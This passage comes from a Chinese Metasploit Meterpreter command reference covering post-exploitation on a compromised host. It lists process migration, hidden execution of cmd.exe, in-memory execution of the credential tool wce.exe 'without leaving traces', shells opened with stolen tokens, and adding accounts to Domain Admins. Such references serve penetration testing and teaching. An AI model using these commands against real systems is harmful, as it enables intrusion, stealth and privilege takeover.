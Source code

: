   关闭当前Meterpreter会话，返回MSF终端

### 系统命令模块

- `getpid`
  
  获得当前会话所在进程的PID值
  
- `getuid`
  
  获得运行Meterpreter会话的用户名，从而查看当前会话具有的权限
  
- `sysinfo`
  
  列出受控主机的系统信息
  
- `ps`
  
  显示所有运行进程以及关联的用户账户
  
- `kill PID`
  
  终结指定的PID进程
  
- `migrate <pid> | -P <pid> | -N <name>> [-t timeout]`
  
  迁移到一个指定的进程，如migrate 1234、migrate -N explorer.exe
  
- `execute`
  
  执行目标机上的文件
  
  例1：在目标机上隐藏执行cmd.exe
  
  `execute -H -f cmd.exe`
  
  例2：与cmd进行交互
  
  `execute -H -i -f cmd.exe`
  
  例3：直接从内存中执行攻击端的可执行文件
  
  ` execute -H -m -d calc.exe -f wce.exe -a “-o foo.txt”`
  
  -d选项设置需要显示的进程名
  
  可执行文件(wce.exe)不需要在目标机上存储，不会留下痕迹
  
- `shell`
  
  以所有可用令牌来运行一个交互的shell
  
- `add_user username password -h IP`
  
  在远程目标主机上添加一个用户
  
- `add_group_user “Domain Admins” username -h IP`
  
  将用户添加到目标主机的域管理员组中
  
- `execute -f cmd.exe -i`
  
  执行 cmd.exe 命令并进行交互
  
- `execute -f cmd.exe -i -t`
  